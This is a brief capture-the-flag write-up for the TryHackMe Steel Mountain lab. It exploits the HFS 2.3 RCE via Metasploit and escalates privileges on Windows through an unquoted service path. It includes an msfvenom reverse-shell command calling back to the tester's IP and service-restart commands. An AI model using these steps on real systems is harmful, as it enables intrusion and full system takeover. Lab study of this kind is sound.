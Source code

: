 # Stealmountain

[link to the room](https://tryhackme.com/room/steelmountain)


`export ip=10.10.91.163`



## Recon

### nmap 

- command: `nmap -sC -sV -v -T5 -oN recon/nmap $ip`

output

```
8080/tcp  open  http               HttpFileServer httpd 2.3
```

## Task

### intro

- Who is the employee of the month?
bill harper

### initial access

- from searchsploit we found `2014-6287` RCE for HFS 2.3.x

- use msfconsole to exploit the target
### privesc

- use powerUp script : "PowerUp aims to be a clearinghouse of common Windows privilege escalation vectors that rely on misconfigurations."

```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

```

- generate reverse shell with msfvenom : `msfvenom -p windows/shell_reverse_tcp LHOST=10.9.4.125 LPORT=3313 -e x84/shikata_ga_nai -f exe -o Advanced.exe`

- put the payload in `C:\Program Files (x86)\IObit` to exploit Unquoted Service Paths

- restart the service ps commands:
```
Stop-Service -Name "AdvancedSystemCareService9"
start-service -name "AdvancedSystemCareService9"
```



